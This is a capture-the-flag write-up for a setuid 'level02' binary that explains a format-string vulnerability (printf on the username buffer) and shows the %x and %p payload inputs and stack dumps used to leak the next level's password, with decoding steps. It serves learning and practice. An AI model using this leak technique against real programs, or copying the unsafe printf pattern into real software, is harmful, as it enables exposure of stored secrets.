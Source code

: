 # String Attack

## Context

```bash
$> file ./level02
setuid setgid ELF 64-bit
$> readelf -h ./level02
  Data:            2's complement, little endian
```

The program open and read the /home/users/level03/.pass

```c
file = fopen("/home/users/level03/.pass","r");
return_value = fread(buffer_6,1,41,file);
```

So the password is store in the stack between 2 buffers : 

```c
  char buffer_14 [14];
  char buffer_6 [6]; // this is were is stock the password
  char buffer_12 [12];
```

The programm gonna ask you a username store in the buffer_12 and a password store in the buffer_14.

At this end of the program, main():

```c
  printf((char *)buffer_12); // username buffer
```

:warnig: We found the vuln !

## Exploit

```bash
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: BBBB%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
--[ Password: CCCC

BBBBffffe3d00432a2a2a2a2a2a2a2affffe5c8f7ff9a084343434300000000000003437684861733951574e67586e475873664b394d0424242427825782578257825782578257825782578257825782578257825782578257825 does not have access!
```

We can see 43434343 and 42424242 wrote, and some byte between ! With x, we did print 4 bytes, buts its 64bits so we need print 8 bytes with "%p".

So lets try again: 

```bash
--[ Username: AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
AAAA0x7fffffffe3d0(nil)0x2e0x2a2a2a2a2a2a2a2a0x2a2a2a2a2a2a2a2a0x7fffffffe5c80x1f7ff9a080x70252e70252e(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)0x100000000(nil)0x756e505234376848.0x45414a3561733951.0x377a7143574e6758.0x354a35686e475873.0x48336750664b394d.(nil).0x7025702541414141.0x7025702570257025.0x7025702570257025.0x7025702570257025.0x7025702570257025.0x7025702570257025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025 does not have access!
```

Interseting value are between the second-last and last (nil).

For each 8 bytes, swap endiannes and translate hex to assci. 

```py
0x756e505234376848 = 0x4868373452506E75 = "Hh74RPnu"
# this are 8 first bytes.
```

You can do it faster with this website : [CyberChef](https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',8,true)From_Hex('Auto')&input=MHg3NTZlNTA1MjM0Mzc2ODQ4LjB4NDU0MTRhMzU2MTczMzk1MS4weDM3N2E3MTQzNTc0ZTY3NTguMHgzNTRhMzU2ODZlNDc1ODczLjB4NDgzMzY3NTA2NjRiMzk0ZA)